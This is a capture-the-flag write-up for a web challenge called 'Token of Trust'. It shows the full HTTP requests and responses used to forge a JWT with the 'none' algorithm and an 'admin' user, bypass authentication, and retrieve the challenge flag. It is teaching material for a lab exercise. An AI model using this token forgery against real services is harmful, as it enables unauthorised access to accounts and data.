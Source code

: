 <h1> Token of Trust (200 points)</h1>
<p> At first, this web app seems straightforward, but there’s something more lurking beneath the surface. It relies on a token for user authentication, but not everything is as secure as it seems. Look closely, and you might discover that the system’s trust can be manipulated.<br>The secret is hidden within the way this token is used. Can you find the key to unlock what’s been concealed? The challenge is waiting for you to crack it.<br>Submit your answer in the following format: ACECTF{3x4mpl3_fl4g}</p>
<p>Challenge link: <a href="http://34.131.133.224:9999/">Click here.</a></p>
<hr>
<p>When accessing the page, we will see the website display the following text:</p>
<img src="../img/tot1.png">
<p>I tried accessing the /login endpoint and received the following text:</p>
<img src="../img/tot2.png">
<p>I used Burp Suite and tried sending the request as instructed:</p>

```bash
POST /login HTTP/1.1
Host: 34.131.133.224:9999
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Content-Type: application/json
If-None-Match: W/"e4-FS+KGb8vs+QXusNm48s8JXwtYjo"
Content-Length: 29
Connection: keep-alive

{"user":"ace","pass":"ctf"}
```
<p>Regardless of what the user and pass are, I still always receive this response:</p>

```bash
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 115
ETag: W/"73-6DG1FleNEQn3wJCbdmBz6miU0yU"
Date: Sun, 02 Mar 2025 16:05:19 GMT
Connection: keep-alive
Keep-Alive: timeout=5

{"token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiZ3Vlc3QifQ.JT3l4_NkVbkQuZpl62b9h8NCZ3cTcypEGZ1lULWR47M"}
```
<p>By analyzing the JWT token, we get the following header and payload:</p>

```bash
// Header
{
  "alg": "HS256",
  "typ": "JWT"
}

// Payload
{
  "user": "guest"
}
```
<p>I tried brute forcing the signature, but there was no result.</p>
<p>I bypassed the JWT authentication by changing the algorithm to 'none' and modifying the user payload to 'admin'. I will remove the signature, and here is the JWT after modification: <code>eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJ1c2VyIjoiYWRtaW4ifQ.</code></p>
<p>I will try sending a request to /flag to retrieve the flag:</p>

```bash
POST /flag HTTP/1.1
Host: 34.131.133.224:9999
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Content-Type: application/json
If-None-Match: W/"e4-FS+KGb8vs+QXusNm48s8JXwtYjo"
Content-Length: 73
Connection: keep-alive

{"token":"eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJ1c2VyIjoiYWRtaW4ifQ."}

```
<p>Response:</p>

```bash
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: text/html; charset=utf-8
Content-Length: 42
ETag: W/"2a-VK/1GE31GYf1WWMtpdo2HaIrTw8"
Date: Sun, 02 Mar 2025 16:26:21 GMT
Connection: keep-alive
Keep-Alive: timeout=5

ACECTF{jwt_cr4ck3d_4dm1n_4cce55_0bt41n3d!}
```

<h3>Flag: <code>ACECTF{jwt_cr4ck3d_4dm1n_4cce55_0bt41n3d!}</code></h3>
